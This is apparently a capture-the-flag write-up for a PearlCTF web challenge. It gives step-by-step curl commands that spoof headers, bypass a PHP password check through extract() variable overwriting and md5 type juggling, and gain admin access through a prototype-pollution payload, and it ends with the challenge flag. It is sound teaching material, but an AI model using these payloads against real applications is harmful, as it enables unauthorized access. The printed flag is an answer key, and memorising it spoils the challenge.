 # steps to success
## Solution
we are given `.htaccess` file in the source, looking at it, we get to know that the request must contain referer as localhost and user-agent as B3gul4.

```
RewriteEngine On
RewriteCond %{HTTP_REFERER} !.*localhost [NC]
RewriteRule ^ https://www.youtube.com/watch?v=zqLEO5tIuYs [R=301,L]

RewriteEngine On
RewriteCond %{HTTP_USER_AGENT} !=B3gul4 [NC]
RewriteRule ^ https://www.youtube.com/watch?v=zqLEO5tIuYs [R=301,L]
```

```
curl -H "referer: localhost" -H "user-agent: B3gul4" https://steps-to-success.ctf.pearlctf.in
ROBOTS ARE COOL
```

heading to `robots.txt` we find

```
User-agent: *

Disallow: /gr34t_/page.php
```

we get the followinf code at `/gr34t_/page.php` endpoint

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/11.9.0/styles/default.min.css">
    <title>AWESOME_PHP</title>
</head>
<body>
    <div>
        <pre><code><span>&lt</span>?php
    $password = "REDACTED";
    extract($_GET); // get request to "input" arg
    if ($input == $password) {
        if ($input != "PearlCTF_15345384" && md5($input) == md5("PearlCTF_15345384")) {
            echo "SECRET";
        } else {
            echo "md5 didn't match";
        }
    } else {
        echo "Wrong password!";
    }
?></code></pre>
    </div>
    <div style="background-color: #baffc0;">
        Wrong password!
    </div>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/11.9.0/highlight.min.js"></script>
    <script>hljs.highlightAll();</script>
</body>
</html>
```

We can see that our input is validated against a password, later the md5 of our input is validated against the md5 of `PearlCTF_15345384`, we can bypass the password check since `extract` is used to create a variable with our input as value, we can overwrite the password variable if we also pass password in get parameters. The md5 bypass is [php typejuggling](https://news.ycombinator.com/item?id=9484757).

```
curl -H "referer: localhost" -H "user-agent: B3gul4" https://steps-to-success.ctf.pearlctf.in/gr34t_/page.php\?password\=QNKCDZO\&input\=QNKCDZO
```

this will tell us to head to `/u_c4nt_gu355_th1s`, we find that GET method is not allowed at this endpoint, on making a POST request we get JSON decode error, after seeing the source, we find that there are two snippets that were obfuscated, we just need to run the `main.js` with node and print the snippets.

```js
(o,e)=>{let f=Object.keys(e);for(key of f)void 0!=o[key]&&isObject(o[key])&&isObject(e[key])?func1(o[key],e[key]):o[key]=e[key]};
```
```js
const userObj=JSON.parse(req.body.obj);let template={user:1,role:"staff",access:{server:"none",database:"partial"},organisation:"pearl.in"};Object.setPrototypeOf(template,{}),userObj.isAdmin?result="You cannot do that here!":(func1(template,userObj),template.isAdmin&&(result=FLAG));
```

we see that our request must be of form `obj=<json>` at the endpoint and this `obj` is recursively merged with a predefined template. Later the merged object is checked for `isAdmin` key.

If we send `{"isAdmin": true}` as our `obj`, we can see that there is a check that doesn't allow this, so we need to have field `isAdmin` without it being there.

We can clearly see that this is to be done by prototype pollution.

so we send `{"__proto__": {"isAdmin": true}}`, the final payload is

```
curl -X POST https://steps-to-success.ctf.pearlctf.in/u_c4nt_gu355_th1s -d 'obj={"__proto__": {"isAdmin": true}}'
```

## Flag
`pearl{7hr0ugh_7H3_SeA_Thr0ugh_the_Space_V0yag3_com35_to_EnD!}`
